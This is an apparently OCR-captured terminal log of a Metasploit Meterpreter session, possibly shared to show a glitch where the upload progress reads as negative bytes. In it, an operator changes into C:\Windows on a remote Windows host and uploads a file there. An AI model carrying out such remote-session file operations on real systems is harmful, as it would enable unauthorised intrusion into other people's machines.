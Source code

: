```
100666/rw-rw-rw-  1453   fil   2016-09-21 15:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 15:10:40 -0500  post.php
100666/rw-rw-rw-  1642   fil   2018-09-11 14:31:18 -0500  server_processing.php
100666/rw-rw-rw-  14438  fil   2016-09-30 01:53:10 -0500  ssp.class.php

meterpreter > cd "C:\\Windows\\"
meterpreter > pwd
C:\Windows
meterpreter > upload README.md
[*] uploading  : README.md -> README.md
[*] Uploaded -1.00 B of 2.67 KiB (-0.04%): README.md -> README.md
[*] uploaded   : README.md -> README.md
meterpreter > ls
Listing: C:\Windows
===================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
...
100666/rw-rw-rw-  34925     fil   2019-03-18 23:46:33 -0500  Professional.xml
40777/rwxrwxrwx   0         dir   2020-04-10 12:14:25 -0500  Provisioning
100666/rw-rw-rw-  2734      fil   2020-06-16 15:14:53 -0500  README.md
...

meterpreter > ls README.md
100666/rw-rw-rw-  2734  fil  2020-06-16 15:14:53 -0500  README.md
```